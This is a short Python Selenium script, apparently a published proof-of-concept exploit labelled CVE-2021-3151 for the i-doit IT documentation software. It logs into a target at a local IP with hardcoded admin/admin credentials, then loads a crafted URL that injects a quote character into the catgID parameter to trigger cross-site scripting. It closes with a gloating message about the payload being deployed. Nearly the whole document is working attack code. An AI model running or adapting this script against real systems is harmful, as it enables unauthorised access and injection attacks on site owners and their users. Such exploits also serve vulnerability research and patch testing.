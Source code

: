 EXP
---

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # CVE-2021-3151

    from selenium import webdriver
    import time
    import os, sys


    # Vendor: https://www.i-doit.org/news/
    website_link="http://192.168.1.160/?"

    # enter your login username
    username="admin"

    # enter your login password
    password="admin"

    #enter the element for username input field
    element_for_username="login_username"

    #enter the element for password input field
    element_for_password="login_password"

    #enter the element for submit button
    element_for_submit="login_submit"

    #browser = webdriver.Safari() #for macOS users[for others use chrome vis
    chromedriver]
    browser = webdriver.Chrome() #uncomment this line,for chrome users
    #browser = webdriver.Firefox() #uncomment this line,for chrome users

    time.sleep(1)
    browser.get((website_link))

    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    # Exploit XSS vulnerability parameter viewMode
    time.sleep(3)
    # Payload Parameter: "viewMode" (Infrastructure > catgID=41 == XSS
    injection simbol{'})
    browser.get(("
    http://192.168.1.160/index.php?viewMode=1002&tvMode=1006&tvType=1&objID=26&catgID=41%27
    "))

    print("The payload is deployed now this is bad for the owner \;)\...\n")


    except Exception:
    #### This exception occurs if the element are not found in the webpage.
    print("Sorry, but something is wrong and this exploit is not working...")